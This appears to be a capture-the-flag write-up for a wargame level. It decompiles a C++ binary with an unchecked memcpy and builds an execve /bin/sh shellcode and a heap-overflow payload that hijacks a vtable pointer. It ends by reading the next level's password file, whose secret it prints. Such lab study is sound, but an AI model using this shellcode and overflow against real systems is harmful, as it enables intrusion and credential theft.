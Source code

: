 get the binary on host
* `scp -P 4242 level9@192.168.56.107:./level9 ./binary/level9`

decompile using ghidras
```c
void main(int param_1,int param_2)
{
	N *this;
	code **this_00;
	
	if (param_1 < 2) {
						/* WARNING: Subroutine does not return */
		_exit(1);
	}
	this = (N *)operator.new(0x6c);
	N::N(this,5);
	this_00 = (code **)operator.new(0x6c);
	N::N((N *)this_00,6);
	N::setAnnotation(this,*(char **)(param_2 + 4));
	(**(code **)*this_00)(this_00,this);
	return;
}

void __thiscall N::setAnnotation(N *this,char *param_1)
{
	undefined4 uVar1;
	
	uVar1 = strlen(param_1);
	memcpy(this + 4,param_1,uVar1);
	return;
}

```

here is a great shell code from adbenoit
`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80`

To generate it create a shellcode.nasm
```s
xor     eax, eax    ;Clearing eax register
push    eax         ;Pushing NULL bytes
push    0x68732f2f  ;Pushing //sh
push    0x6e69622f  ;Pushing /bin
mov     ebx, esp    ;ebx now has address of /bin//sh
push    eax         ;Pushing NULL byte
mov     edx, esp    ;edx now has address of NULL byte
push    ebx         ;Pushing address of /bin//sh
mov     ecx, esp    ;ecx now has address of address
                    ;of /bin//sh byte
mov     al, 11      ;syscall number of execve is 11
int     0x80        ;Make the system call
```
compile it
* `nasm -f elf shellcode.asm`

Use objdump to get the shellcode bytes:
* `objdump -d -M intel shellcode.o`

Extracting the bytes gives us the shellcode
* `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80`

What we need to create the payload :
* addr of N    ===> 0x08040a0c (break point at instruction 136, step and x/x $eax)
* a shell code ===> we got one
* adding byte totaling 108 char with the 2 previous element
* addr of N+4 (were our input get memcpy) ===> 0x08040a10

so : `addr of N+4` + `shellcode` + `79 osef char` + `addr of N` (because of the +4 in memcpy)

`./level9 $(python -c "print '\x10\xa0\x04\x08' + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80' + '\x90'*79 +'\x0c\xa0\x04\x08'")`
```bash
$ cat /home/user/bonus0/.pass
	f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```
